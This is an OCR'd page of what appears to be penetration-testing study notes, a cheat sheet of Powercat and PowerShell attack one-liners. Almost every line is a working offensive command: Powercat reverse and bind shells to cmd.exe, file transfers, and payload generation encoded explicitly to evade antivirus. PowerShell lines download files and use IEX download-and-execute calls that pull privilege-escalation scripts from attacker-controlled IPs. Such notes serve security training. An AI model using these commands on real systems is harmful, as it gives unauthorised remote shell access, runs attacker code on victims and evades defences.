 #### Powercat transfert file
```
#nc should be in listen mode
powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1

```
#### Powercat Reverse Shell (nc is in lestening mode remotely)
`
powercat -c 10.11.0.4 -p 443 -e cmd.exe
`

#### Powercat Bind Shell
`powercat -l -p 443 -e cmd.exe`

#### Powercat Stand-Alone Payloads
```
powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1 (reverseshell.ps1 is the reverse shell payload)

./reverseshell.ps1
```

#### Powercat Encoded Payloads (to avoid AV detection)
`powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1`

### Powershell

#### Powershell Download file
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.112/powerUp.ps1','C:\Windows\Temp\test\powerup.ps1')"

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.112/jaws-enum.ps1','C:\Windows\Temp\test\jaws-enum.ps1')"

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.112/Sherlock.ps1','C:\Windows\Temp\test\Sherlock.ps1')"

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.112/windows-exploit-suggester.py','C:\Windows\Temp\test\windows-exploit-suggester.py')"

$url = "http://10.10.16.112/powerUp.ps1";$output = "C:\Users\Chase\Desktop\powerUp.ps1";$wc = New-Object System.Net.WebClient;$wc.DownloadFile($url, $output);


```

#### Powershell Execute remotely
```
powershell -C IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.112/Invoke-PowerShellTcp.ps1')

powershell -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.112/Invoke-PowerShellTcp.ps1')"

powershell -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.112/Sherlock.ps1'); Find-AllVulns "

powershell -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.112/powerUp.ps1');"

```